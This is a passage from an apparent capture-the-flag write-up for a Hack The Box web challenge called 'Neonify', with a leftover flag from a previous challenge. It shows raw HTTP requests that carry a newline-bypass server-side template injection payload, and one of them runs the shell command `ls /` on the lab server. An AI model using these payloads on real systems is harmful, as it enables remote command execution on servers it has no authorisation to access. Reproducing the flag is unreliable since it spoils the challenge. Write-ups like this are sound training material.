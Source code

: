 ![image](https://hackmd.io/_uploads/Sy5jzjM_0.png)

flag : `HTB{c0rrupt3d_c0uch_b4ll0ts!}`

## Neonify

![image](https://hackmd.io/_uploads/ryg5Zfu_R.png)


![image](https://hackmd.io/_uploads/SJPTbG_OC.png)

```
POST / HTTP/1.1
Host: 94.237.53.113:50183
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://94.237.53.113:50183
Connection: close
Referer: http://94.237.53.113:50183/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

neon=1111%0a<%25%3d+7*7+%25>
```


```
POST / HTTP/1.1
Host: 94.237.53.113:50183
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://94.237.53.113:50183
Connection: close
Referer: http://94.237.53.113:50183/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

neon=1111%0a<%25%3d+`ls+/`+%25>
```


![image](https://hackmd.io/_uploads/BkpzMG__C.png)
